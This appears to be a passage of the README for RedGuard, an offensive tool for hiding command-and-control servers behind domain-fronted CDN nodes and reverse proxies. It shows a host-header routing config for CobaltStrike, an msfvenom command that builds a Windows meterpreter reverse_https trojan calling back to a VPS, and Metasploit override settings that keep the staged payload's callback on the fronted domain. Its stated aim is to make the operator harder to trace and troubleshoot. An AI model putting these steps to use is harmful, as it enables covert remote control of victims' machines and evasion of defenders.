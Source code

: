 ## Edge Node

RedGuard 22.08.03 updated the edge host conection settings - custom intranet host interaction domain name, and the edge host uses the domain front CDN node interaction. This makes the information asymmetry between the two hosts, making it more difficult to trace the source and make it difficult to troubleshoot.

![image.png](https://github.com/wikiZ/RedGuardImage/raw/main/66b9e60fb8303b3c6b457cc8134a436.png)

## CobaltStrike

If there is a problem with the above method, the actual online C2 server cannot be directly intercepted by the firewall, because the actual load balancing request in the reverse proxy is made by the IP of the cloud server manufacturer.

In single combat, we can set an interception rules on the cloud server firewall.

![image.png](https://github.com/wikiZ/RedGuardImage/raw/main/20220522150356-58b9586c-d99d-1.png)

Then set the address pointed to by the proxy to <https://127.0.0.1:4433>.

```bash
{"360.net":"http://127.0.0.1:8080","360.com":"https://127.0.0.1:4433"}
```

And because our basic verification is based on the HTTP HOST request header, what we see in the HTTP traffic is also the same as the domain fronting method, but the cost is lower, and only one cloud server is needed.

![image.png](https://github.com/wikiZ/RedGuardImage/raw/main/20220522150942-26f6c264-d99e-1.png)

For the listener settings, the `HTTPS Port (C2)` is set to the RedGuard reverse proxy port, and the `HTTPS Port (Bind)` is the actual connection port of the local machine.

## Metasploit

**Generates Trojan**

```bash
$ msfvenom -p windows/meterpreter/reverse_https LHOST=vpsip LPORT=443 HttpHostHeader=360.com 
-f exe -o ~/path/to/payload.exe
```

Of course, as a domain fronting scenario, you can also configure your LHOST to use any domain name of the manufacturer's CDN, and pay attention to setting the HttpHostHeader to match RedGuard.

```bash
setg OverrideLHOST 360.com
setg OverrideLPORT 443
setg OverrideRequestHost true
```

It is important to note that the `OverrideRequestHost` setting must be set to `true`. This is due to a feature in the way Metasploit handles incoming HTTP/S requests by default when generating configuration for staging payloads. By default, Metasploit uses the incoming request's `Host` header value (if present) for second-stage configuration instead of the `LHOST` parameter. Therefore, the build stage is configured to send requests directly to your hidden domain name because CloudFront passes your internal domain in the `Host` header of forwarded requests. This is clearly not what we are asking for. Using the `OverrideRequestHost` configuration value, we can force Metasploit to ignore the incoming `Host` header and instead use the `LHOST` configuration value pointing to the origin CloudFront domain.
